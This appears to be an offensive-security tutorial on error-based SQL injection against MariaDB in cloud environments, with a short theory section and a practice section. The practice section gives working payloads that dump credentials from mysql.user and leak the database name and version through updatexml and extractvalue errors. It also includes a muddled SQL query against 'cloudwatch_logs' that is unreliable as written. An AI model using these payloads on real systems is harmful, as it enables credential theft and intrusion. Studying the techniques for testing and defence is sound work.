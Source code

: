 ```yaml
---
title: 'Error-Based Attacks in Cloud: An Essential Guide'
description: Learn how to exploit error-based SQL injection in MariaDB within cloud
  environments and extract sensitive information.
keywords:
- Error-based attacks
- SQL injection
- MariaDB
- Cloud security
- Error message leak
- Cloud logs
- AWS CloudWatch
- Database error handling
- Cloud vulnerabilities
---
```


# Error-Based Attacks in Cloud

## Context

This article explores how to perform error-based SQL injection attacks in MariaDB within cloud environments. The primary goal is to illustrate the techniques for extracting sensitive data using database error messages in the cloud, assuming knowledge in cloud infrastructure, SQL error handling, cloud logging mechanisms, and previous experience with MariaDB SQL injection.

## Theory

### Error Message Leak in Cloud Environments

Error-based SQL injection is a technique that exploits the messages returned by a database to extract data. In cloud environments, such error messages could inadvertently be exposed in logs, providing valuable information to an attacker. The key to this approach is injecting SQL payloads designed to trigger errors and subsequently examining these error messages to gather data.

#### Attack Sequence

1. Inject a carefully crafted SQL payload.
2. Trigger database errors that concatenate or display internal data.
3. Capture and examine the error messages to extract useful information.

### Cloud Logs Exfiltration

Cloud logging services, such as AWS CloudWatch, often store detailed logs of error messages. These logs can contain sensitive data when database errors occur. An important attack method involves accessing these logs to retrieve any data leaks that have been inadvertently stored.

#### Data Flow

- User interacts with the web application.
- The application triggers an SQL error.
- The error message gets logged by the cloud service.
- The attacker retrieves these logs to extract sensitive information.

#### Attack Sequence

1. Trigger SQL errors to generate detailed error messages.
2. Access cloud-based logs where these messages are stored.
3. Analyze the logs for sensitive information leakage.

### MariaDB Error Handling in Cloud

MariaDB's error handling might not always sanitize the error messages correctly, leading to potential data leaks. Such SQL errors can reveal parts of the database structure, including table names, column names, and even data stored within.

### Cloud Logging Vulnerabilities

Cloud logging services often assume their logs are secure and inaccessible to unauthorized users. However, if these logs are misconfigured or improperly secured, they can become a vector for information disclosure attacks. The potential exposure of sensitive data in cloud logs represents a significant vulnerability.

## Practice

### Exploiting Error-Based SQL Injection in MariaDB on Cloud

1. **Triggering User Credentials Leak**
   - Inject the following SQL payload into an application input:
   ```sql
   SELECT * FROM users WHERE id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT (SELECT CONCAT(user,0x7e,password) FROM mysql.user LIMIT 0,1)),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a);
   ```
   - This payload triggers an error designed to leak the user credentials from the 'mysql.user' table.

2. **Extracting Database Name**
   - Use `updatexml` function to cause an error:
   ```sql
   SELECT updatexml(null,concat(0x3a,(SELECT database())),null);
   ```
   - The database name is revealed through the error message caused by this injection.

3. **Extracting Database Version**
   - Use `extractvalue` function:
   ```sql
   SELECT extractvalue(rand(),concat(0x3a,(SELECT version())));
   ```
   - This payload causes a database error that reveals the database version.

4. **Searching for Leaked Data in Cloud Logs**
   - Access the cloud logs and search for error messages containing leaked data:
   ```sql
   SELECT * FROM cloudwatch_logs WHERE message LIKE '%error%';
   ```
   - Review the stored error messages for any sensitive information that has been logged.

These steps can lead to the extraction of sensitive data from error messages that are logged in cloud environments, demonstrating how an attacker can exploit inadequate error handling and logging practices.

## Tools

- **SQLMap**
- **Burp Suite**
- **AWS CloudWatch**